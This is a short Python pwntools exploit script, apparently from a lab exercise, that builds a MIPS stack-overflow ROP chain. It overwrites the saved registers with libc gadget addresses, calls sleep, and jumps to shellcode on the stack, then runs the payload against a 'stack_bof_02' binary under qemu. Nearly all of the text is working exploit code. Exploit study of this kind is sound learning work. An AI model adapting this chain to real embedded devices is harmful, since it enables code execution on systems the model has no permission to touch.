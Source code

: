 ```python
pay += b'1111'                    #s0
pay += b'2222'                    #s1
pay += p32(jr_t9_jr_ra+libc_base) #s2 - > set a0 
pay += p32(sleep+libc_base)       #s3
pay += b'5555'                    #s4
pay += p32(jr_a1+libc_base)     #s5
pay += b'7777'                    #s6
pay += p32(set_a0_addr+libc_base)
pay += b'c'*0x34
pay += p32(addiu_a1_sp+libc_base)
pay += b'd'*52
pay += shellcode

log.info(hex(0x94A10+libc_base))
log.info('addiu_a0_sp_24: {}'.format(hex(addiu_a1_sp+libc_base)))
with open('payload','wb') as f:
    f.write(pay)
# p = process(['qemu-mipsel-static', '-L', './mipsel', '-g', '1234','./stack_bof_02', pay])
p = process(['qemu-mipsel-static', '-L', './mipsel', './stack_bof_02',pay])
pause()
p.interactive()
```

